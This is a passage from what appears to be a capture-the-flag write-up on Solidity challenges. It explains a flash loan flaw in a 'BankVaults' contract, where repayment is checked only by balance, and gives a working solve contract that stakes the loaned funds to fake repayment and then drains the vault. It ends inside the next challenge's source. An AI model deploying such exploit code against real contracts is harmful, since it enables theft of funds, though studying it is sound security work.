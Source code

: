 ~~~solidity
    require(sent, "ETH transfer failed");

    IFlashLoanReceiver(receiver).executeFlashLoan(amount);

    uint256 balanceAfter = address(this).balance;

    require(balanceAfter >= balanceBefore, "Flash loan wasn't fully repaid in ETH");
}
~~~
Specifically, it checks if the flashloan was repaid only by checking its balance before and after. This means it doesn't matter how we transfer the funds back to the contract when we finish our flashloan, only that the contract balance rises to its previous level. This allows us to take the flashloaned funds and stake them to raise our balance, without using any of our money.


{{< collapse "Solve Script" >}}
~~~solidity
contract SolveAttempt {
    BankVaults bv;
    uint256 public constant MINIMUM_STAKE_TIME = 2 * 365 days;
    uint256 totalShares = 0;

    constructor(address payable bva) payable{
        bv = BankVaults(bva);
    }

    function solve() public {
        totalShares += bv.stake{value : address(this).balance}(address(this));
        uint256 timelock;
        unchecked{
            timelock = block.timestamp + MINIMUM_STAKE_TIME;
            bv.flashLoan(address(bv).balance, address(this), timelock);
        }
        bv.withdraw(address(bv).balance, address(this), address(this));
    }
    function executeFlashLoan(uint256 amount) public{
        totalShares += bv.stake{value : amount}(address(this));
    }


}
~~~
{{< /collapse >}}
{{< breakline >}}
### Gentleman (Hard)

{{< collapsetabs "Challenge Files" >}}

{{< tabs tabTotal="2" >}}

{{% tab tabName="Gentleman.sol" %}}
~~~solidity
interface SwapCallback {
    function doSwap() external;
}

contract Gentleman {
    struct Pool {
        uint256 leftReserves;
        uint256 rightReserves;
    }

    struct SavedBalance {
        bool initiated;
        uint256 balance;
~~~
